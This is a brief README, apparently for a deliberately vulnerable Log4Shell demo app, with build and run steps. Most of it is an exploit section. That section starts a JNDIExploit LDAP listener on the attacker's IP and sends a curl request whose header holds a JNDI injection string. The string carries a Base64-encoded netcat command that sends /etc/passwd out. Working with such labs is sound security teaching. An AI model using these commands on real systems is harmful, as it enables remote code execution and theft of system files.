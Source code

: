 # log4shell example

## Requrements:

- [java 8](https://jdk.java.net/java-se-ri/8-MR3)

## Build

    ./gradlew clean build

## Run

    java -jar build/lib/log4shell-0.0.1.jar

## Exploit
> run with **java 8**

- start LDAP listener  
    `java-se-8u41-ri/bin/java -jar JNDIExploit-1.2-SNAPSHOT.jar -i $MY_IP -p 8888`

- run exploit  
    `curl -X POST $TARGET_IP:8080/api/7678-IUFHG-9087-KJLJLJ -H '7987-LKJKF-9080-IUUZU-9876: ${jndi:ldap://$MY_IP:1389/Basic/Command/Base64/bmMgMTI3LjAuMC4xIDQwNDAgPCAvZXRjL3Bhc3N3ZAo=}'`
